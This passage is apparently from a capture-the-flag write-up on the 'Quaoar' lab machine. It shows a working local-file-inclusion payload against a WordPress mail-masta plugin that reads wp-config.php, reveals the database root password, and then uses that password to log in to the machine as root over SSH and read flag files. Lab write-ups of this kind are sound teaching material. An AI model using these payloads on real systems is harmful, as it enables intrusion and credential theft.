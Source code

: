 # 5. Post-Exploitation

## Privilege Escalation

Using shell or LFI, we can examine the WordPress configuration file and get access to MySQL:

```
# curl -s --url http://192.168.1.25/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/read=convert.base64-encode/resource=/var/www/wordpress/wp-config.php | base64 -d
<?php
/**
 * The base configurations of the WordPress.
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');
...
```

Well that is too tempting not to try:

```
# ssh root@192.168.1.25
root@192.168.1.25's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Wed Jul 12 20:57:07 EDT 2017

  System load:  0.06              Processes:             101
  Usage of /:   30.5% of 7.21GB   Users logged in:       0
  Memory usage: 48%               IP address for eth0:   192.168.1.25
  Swap usage:   11%               IP address for virbr0: 192.168.122.1

  Graph this data and manage this system at https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jan 15 19:23:45 2017 from desktop-g0lhb7o.snolet.com
root@Quaoar:~# ls
flag.txt  vmware-tools-distrib
root@Quaoar:~# cat flag.txt 
8e3f9ec016e3598c5eec11fd3d73f6fb
root@Quaoar:~#  find / -name flag.txt
/root/flag.txt
/home/wpadmin/flag.txt
root@Quaoar:~# 

```
